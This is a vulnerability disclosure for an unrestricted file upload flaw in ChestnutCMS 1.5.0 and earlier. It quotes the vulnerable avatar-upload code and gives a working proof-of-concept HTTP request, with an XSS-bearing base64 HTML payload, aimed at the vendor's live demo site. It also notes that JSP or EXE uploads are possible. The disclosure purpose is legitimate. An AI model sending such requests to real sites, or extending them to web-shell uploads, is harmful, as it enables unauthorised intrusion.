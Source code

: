 **[CVE-ID]**

**[PRODUCT]**

ChestnutCMS

**[Vendor of Product]**

https://gitee.com/liweiyi/ChestnutCMS

**[VERSION]**

ChestnutCMS <=1.5.0

**[Vulnerability Type]**

File Upload

**[Description]**
Based on the code analysis, it was determined that the /avatar API endpoint receives a base64 string as input. This string is then passed to the memberService.uploadAvatarByBase64 method for processing. Within the service, the base64-encoded image is parsed. For example, given a string like:
data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
the content after the comma is extracted and decoded using Base64.getDecoder().decode().
The substring from the 11th character up to the first occurrence of a semicolon (;) is assigned to the suffix variable (representing the file extension). The decoded content is then written to a file.
However, the file extension is not validated, and since this functionality is exposed to the frontend, it poses significant security risks.
```
Controller

	@IgnoreDemoMode
	@Priv(type = MemberUserType.TYPE)
	@PostMapping("/avatar")
	public R<?> uploadMemberAvatar(@RequestParam String image,
								   @RequestParam(required = false, defaultValue = "false") Boolean preview) throws IOException {
		String url = this.memberService.uploadAvatarByBase64(StpMemberUtil.getLoginIdAsLong(), image);

		this.memberStatDataService.removeMemberCache(StpMemberUtil.getLoginIdAsLong());
		return R.ok(MemberUtils.getMemberResourcePrefix(preview) + url);
	}
}

Service
@Override
	public String uploadAvatarByBase64(Long memberId, String base64Data) throws IOException {
		if (!base64Data.startsWith("data:image/")) {
			return null;
		}
		String base64Str = StringUtils.substringAfter(base64Data, ",");
		byte[] imageBytes = Base64.getDecoder().decode(base64Str);

		String suffix = base64Data.substring(11, base64Data.indexOf(";"));
		String path = "avatar/" + memberId + "." + suffix;
		FileUtils.writeByteArrayToFile(new File(MemberConfig.getUploadDir() + path), imageBytes);

		log.info("upload avatar: " + path);
		this.lambdaUpdate().set(Member::getAvatar, path).eq(Member::getMemberId, memberId).update();
		return path;
	}
```


## POC：
Test with the official demonstration site and use the provided demonstration account
![image](https://github.com/user-attachments/assets/8f09a097-8729-4b9c-a199-4e17368d081c)

After logging in, replace the Authorization-M in the PoC with your account information.
Use Burp Suite to send the following crafted malicious 

PoC:

```
POST /api/member/avatar HTTP/1.1
Host: swikoon.1000mz.com
Authorization-M: Bearer b67fafaf-dd79-4c6d-8e6a-51f23a14a5b0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymTQcZR4jrbYbTdAy


------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="action"

wpcom_cropped_upload
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="nonce"

undefined
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="image"

data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="type"

0
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="user"

443381386166341
------WebKitFormBoundarymTQcZR4jrbYbTdAy--
```

![image](https://github.com/user-attachments/assets/cfa02ddd-ad75-4c8c-b145-faa3f91ffb07)

Access the return address
![image](https://github.com/user-attachments/assets/ea6cff33-0831-438d-a091-4c361ea30f9b)
Of course, you can also upload jsp or exe files

demo site
http://news.1000mz.com

official website
https://gitee.com/liweiyi/ChestnutCMS
https://www.1000mz.com/



